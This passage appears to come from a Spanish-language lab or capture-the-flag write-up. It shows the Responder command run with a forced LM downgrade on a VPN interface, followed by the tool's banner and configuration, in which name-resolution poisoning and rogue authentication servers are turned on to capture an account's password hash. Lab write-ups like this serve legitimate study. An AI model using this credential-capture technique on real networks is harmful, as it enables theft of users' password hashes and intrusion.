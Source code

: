 Y recibo el hash del Account System

```null
responder -I tun0 --lm
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Force ESS downgrade        [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.6]
    Responder IPv6             [dead:beef:4::1004]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
```